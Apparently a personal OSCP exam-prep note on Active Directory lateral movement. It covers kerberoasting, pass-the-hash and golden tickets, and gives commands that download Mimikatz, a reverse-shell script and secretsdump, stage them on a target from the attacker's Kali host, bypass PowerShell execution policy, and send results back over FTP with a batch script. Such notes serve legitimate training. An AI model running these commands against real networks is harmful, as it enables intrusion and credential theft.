 Resources:
OSCP Active Directory Lateral Movement PG 654
Pass the Hash
Overpass the Hash
Pass the Ticket
Kerberoasting
Password Spray
CHECK OUT:
```
https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/
```
Cryptography mimikatz module:
```
https://hackmag.com/security/lateral-movement/
```
```
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/
```
# Attack Privilege Requirements
- [ ]  Kerbrute Enumeration — No domain access required
- [ ]   Pass the Ticket — Access as a user to the domain required
- [ ]   Kerberoasting — Access as any user required
- [ ]   AS-REP Roasting — Access as any user required
- [ ]   Golden Ticket — Full domain compromise (Domain Admin) required
- [ ]   Silver Ticket — Service hash required
- [ ]   Skeleton Key — Full domain compromise (Domain Admin) required
```bash - kali
wget https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1 && wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 && wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1 && wget https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1 && wget https://github.com/samratashok/nishang/raw/refs/heads/master/Gather/Invoke-Mimikatz.ps1 && wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1 && wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1 && wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/secretsdump.py && cp /home/kali/Desktop/PWK/SVCORP/10.11.1.21/spray.ps1 . && cp /home/kali/Desktop/EXAM/ACTIVE_DIRECTORY/2/PsExec64.exe .
```
### Enable RDP
Try enabling RDP with share access
[[Port 3389 - RDP ~#Enabling RDP]]
If successful, skip to [[#Domain Enumeration]]
#### AutoUpload.bat - ==REMEMBER TO CHANGE $KALI TO IP!==
```bash - kali
echo $KALI
```
```bash - kali
mousepad AutoUpload.bat
```
```powershell - windows
@echo off
echo anonymous> upload.txt
echo anonymous>> upload.txt
echo binary>>upload.txt
echo put adPEAS.txt >> upload.txt
echo quit >> upload.txt
ftp -s:upload.txt $KALI
del upload.txt
```
#### Transfer to target - PowerShell - ==REMEMBER TO CHANGE $KALI TO IP!==
```powershell - windows
cd $env:TEMP; mkdir Tools; cd Tools; Invoke-WebRequest -Uri '$KALI/PowerView.ps1' -OutFile PowerView.ps1; Invoke-WebRequest -Uri '$KALI/SharpHound.ps1' -OutFile SharpHound.ps1; Invoke-WebRequest -Uri '$KALI/GetUserSPNs.ps1' -OutFile GetUserSPNs.ps1; Invoke-WebRequest -Uri '$KALI/Invoke-Mimikatz.ps1' -OutFile Invoke-Mimikatz.ps1; Invoke-WebRequest -Uri '$KALI/Invoke-Kerberoast.ps1' -OutFile Invoke-Kerberoast.ps1; Invoke-WebRequest -Uri '$KALI/Invoke-PowerShellTcpOneLine.ps1' -OutFile Invoke-PowerShellTcpOneLine.ps1; Invoke-WebRequest -Uri '$KALI/spray.ps1' -OutFile spray.ps1; Invoke-WebRequest -Uri '$KALI/PsExec64.exe' -OutFile PsExec64.exe; Invoke-WebRequest -Uri '$KALI/AutoUpload.bat' -OutFile AutoUpload.bat; Invoke-WebRequest -Uri '$KALI/adPEAS.ps1' -OutFile adPEAS.ps1
```
#### Bypass execution policy
```batch - windows
powershell -ep bypass
```
#### Start FTP server and upload results
[[Python#FTP Server]]
```powershell - windows
cmd /c "AutoUpload.bat"
```
Export Domain variables from nmapSVC : RE-DO EVERYTIME YOU CHANGE HOSTS!
```bash - kali
export TARGET_NAME=$(cat nmapSVC | grep Target_Name | cut -d : -f 2) && export NETBIOS_DOMAIN_NAME=$(cat nmapSVC | grep NetBIOS_Domain_Name | cut -d : -f 2) && export NETBIOS_COMPUTER_NAME=$(cat nmapSVC | grep NetBIOS_Computer_Name | cut -d : -f 2) && export DNS_DOMAIN_NAME=$(cat nmapSVC | grep DNS_Domain_Name | cut -d : -f 2) && export DNS_COMPUTER_NAME=$(cat nmapSVC | grep DNS_Computer_Name | cut -d : -f 2) && export DNS_TREE_NAME=$(cat nmapSVC | grep DNS_Tree_Name | cut -d : -f 2)
```
---
#### Domain Enumeration
1. Identify Domain Controller!
Look for ports 389 and 636 being open.
From nmap scan, we should find Domain: details on these ports.
From nmap scans:
|   Target_Name: xxxxx
|   NetBIOS_Domain_Name: xxxxx
|   NetBIOS_Computer_Name: xxxxx
|   DNS_Domain_Name: xxxxx
|   DNS_Computer_Name: xxxxx
|   DNS_Tree_Name: xxxxx
[[5._ACTIVE_DIRECTORY/AD (YT)/1._Enumeration#5 Domain Enumeration winapsearch]]
[[5._ACTIVE_DIRECTORY/AD (YT)/1._Enumeration#6 Domain Enumeration LDAPDomianDump - try with without creds]]
Found users?
```bash - kali
git clone https://github.com/captain-noob/username-wordlist-generator && cd username-list-generator
```
make list of users into user.txt file
```bash - kali
python3 userlistcreator.py
```
2. Compromise a host on the domain, get system.
[[2._PsExec.exe (admin to system!)]]
Run adPEAS  https://github.com/61106960/adPEAS
```powershell - target
. .\adPEAS.ps1; Invoke-adPEAS -Outputfile 'C:\Users\xadmin\Desktop\adPeas.txt'
```
Try to find users and groups with PowerView.ps1
[[6._PowerShell AD Enumeration]]
Do you have any users / passwords / hashes at this point?
- **YES!  Try the following:**
[[5._ACTIVE_DIRECTORY/AD (YT)/1._Enumeration#5 Domain Enumeration winapsearch]]
[[5._ACTIVE_DIRECTORY/AD (YT)/1._Enumeration#6 Domain Enumeration LDAPDomianDump - try with without creds]]
[[9_Password Spraying]]
[[netexec]]
- [ ] SMB
- [ ] WINRM
- [ ] LDAP
- **NO! Try the following:**
[[__.Mimikatz.ps1]]
[[__.Mimikatz.exe]]
3. Look for SPN's
```powershell - target
.\GetUserSPNs.ps1
```
[[4._Service Account Attacks]]
Now that we have password, try:
[[9_Password Spraying]]
[[netexec]]
- [ ] SMB
- [ ] WINRM
- [ ] LDAP